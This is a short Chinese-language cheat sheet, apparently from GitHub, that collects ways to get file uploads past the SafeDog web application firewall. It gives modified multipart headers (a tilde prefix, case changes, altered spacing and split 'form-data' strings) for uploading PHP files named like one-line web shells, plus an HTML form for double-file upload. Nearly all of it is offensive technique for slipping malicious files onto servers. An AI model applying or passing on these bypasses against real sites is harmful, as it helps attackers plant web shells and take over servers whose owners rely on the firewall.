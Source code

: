 ## 上传绕过整理

### WAF绕过

#### 安全狗绕过

1.绕过思路：对文件的内容，数据。数据包进行处理。

```bash
关键点在这里Content-Disposition: form-data; name="file"; filename="ian.php"
将form-data;            修改为~form-data;

```

2.通过替换大小写来进行绕过

```bash
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition    修改为content-Disposition
将 form-data            修改为Form-data
将 Content-Type         修改为content-Type  

```

3.通过删减空格来进行绕过

```bash
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition: form-data          冒号后面 增加或减少一个空格
将form-data; name="file";                分号后面 增加或减少一个空格
将 Content-Type: application/octet-stream   冒号后面 增加一个空格

```

4.通过字符串拼接绕过

```
看Content-Disposition: form-data; name="file"; filename="yjh3.php"
将 form-data 修改为   f+orm-data
将 from-data 修改为   form-d+ata

```

5.双文件上传绕过

```html
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传">
</form>

```
